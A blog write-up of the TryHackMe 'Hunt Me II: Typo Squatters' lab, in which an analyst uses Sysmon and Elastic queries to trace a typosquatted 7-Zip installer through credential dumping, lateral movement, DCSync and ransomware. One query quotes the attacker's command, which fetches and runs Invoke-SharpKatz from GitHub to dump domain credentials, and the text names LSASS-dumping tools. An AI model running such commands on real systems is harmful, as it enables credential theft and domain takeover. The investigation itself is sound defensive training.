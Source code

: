 +++
title = 'TryHackMe Hunt Me II: Typo Squatters write-up'
date = 2024-11-14T07:07:07+01:00
+++

**Scenario:**

*Just working on a typical day as a software engineer, Perry received an encrypted 7z archive from his boss containing a snippet of a source code that must be completed within the day. Realising that his current workstation does not have an application that can unpack the file, he spins up his browser and starts to search for software that can aid in accessing the file. Without validating the resource, Perry immediately clicks the first search engine result and installs the application.*

![alt](images/img1.png)

*Last **September 26, 2023**, one of the security analysts observed something unusual on the workstation owned by Perry based on the generated endpoint and network logs. Given this, your SOC lead has assigned you to conduct an in-depth investigation on this workstation and assess the impact of the potential compromise.*

**Questions:**

1. *What is the URL of the malicious software that was downloaded by the victim user?*

We know from the description that the victim used google chrome to download the file. We also know that downloading a file creates an event with sysmon ID 11 (File Creation).

`process.name:chrome.exe AND winlog.event_id:11`

![alt](images/img2.png)

We find that 7z2301-x64.msi was downloaded. Let's query for it to find the URL

`process.name:chrome.exe AND 7z2301-x64.msi`

![alt](images/img3.png)

2. *What is the IP address of the domain hosting the malware?*

We can simply query for DNS events that contain the attacker's domain

`7zipp.org AND network.protocol: DNS`

![alt](images/img4.png)

3. *What is the PID of the process that executed the malicious software?*

We have the name of the file and we also know that executing the software will create a new process - event ID 1

`7z2301-x64.msi AND winlog.event_id:1`

Checking the chronologically first event

![alt](images/img5.png)

4. *Following the execution chain of the malicious payload, another remote file was downloaded and executed. What is the full command line value of this suspicious activity?*

To follow the execution flow we simply search for processes with PID or PPID of 2532. This way we can see what other things the process did as well as its child processes

`process.pid:2532 OR process.parent.pid:2532`

We find another suspicious event

![alt](images/img6.png)

It has different PPID than the process we found before. As this is the only interesting thing we get let's check this out the same way we did

`process.pid:4188 OR process.parent.pid:4188`

We get a lot of suspicious events, however it all starts with execution of malicious dll

![alt](images/img7.png)

We don't know how it got on the system so again let's follow this process

`process.pid:3988 OR process.parent.pid:3988`

![alt](images/img8.png)

There is one more similar event but it was spawned by a different process. Let's look a bit closer at this event

![alt](images/img9.png)

We find the command that downloaded a powershell script and spawned this event

5. *The newly downloaded script also installed the legitimate version of the application. What is the full file path of the legitimate installer?*

We simply search for processes spawned by the script

`process.parent.pid:4248`

![alt](images/img10.png)

6. *What is the name of the service that was installed?*

The answer is within the events returned by the previous query

![alt](images/img11.png)

7. *The attacker was able to establish a C2 connection after starting the implanted service. What is the username of the account that executed the service?*

Still the same query is enough

![alt](images/img12.png)

8. *After dumping LSASS data, the attacker attempted to parse the data to harvest the credentials. What is the name of the tool used by the attacker in this activity?*

Let's go back to analyzing what happens after the attackers executes their malicious dll. The PID of that process is 4188 so we simply query for it's child processes

`process.parent.pid:4188`

![alt](images/img13.png)

We see the attacker uses Invoke-NanoDump to dump the LSASS data and then parses it with Invoke-PowerExtract

9. *What is the credential pair that the attacker leveraged after the credential dumping activity? (format: username:hash)*

Same search, few events later we have the answer

![alt](images/img14.png)

10. *After gaining access to the new account, the attacker attempted to reset the credentials of another user. What is the new password set to this target account?*

A little bit more events later

![alt](images/img15.png)

11. *What is the name of the workstation where the new account was used?*

Even more events later...Since all these events happened on workstation WKSTN-03 we can see that the attacker pivoted to WKSTN-02 using anna.jones account

![alt](images/img16.png)

12. *After gaining access to the new workstation, a new set of credentials was discovered. What is the username, including its domain, and password of this new account?*

Obviously we have to search for anna.jones and WKSTN-02. We can also add some filters as otherwise we get thousands of events

`user.name:anna.jones AND host.hostname:WKSTN-02 AND process.command_line:* AND process.name:*`

After searching through events we find an answer

![alt](images/img17.png)

13. *Aside from mimikatz, what is the name of the PowerShell script used to dump the hash of the domain admin?*

After searching some more

![alt](images/img18.png)

14. *What is the AES256 hash of the domain admin based on the credential dumping output?*

![alt](images/img19.png)

We have the ntlm hash in this event. To find its AES256 hash we need to find an event that contains the output of the attackers command that dumped the hashes

```process.command_line:"-C iex(iwr https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpKatz.ps1 -useb); Invoke-Sharpkatz -Command '--Command dcsync --Domain swiftspendfinancial.thm --DomainController DC-01.swiftspendfinancial.thm --User damian.hall'" AND hash```

Looking closer at the event returned we find an answer

![alt](images/img20.png)

15. *After gaining domain admin access, the attacker popped ransomware on workstations. How many files were encrypted on all workstations?*

Going back to this search from Q12

`user.name:anna.jones AND host.hostname:WKSTN-02 AND process.command_line:* AND process.name:*`

![alt](images/img21.png)

We see that last events execute bomb.exe on both workstations. This is more than likely the ransomware. Let's find out how many file has this process created (ID 11)

`process.name:bomb.exe AND winlog.event_id:11`

![alt](images/img22.png)

We get 46 events returned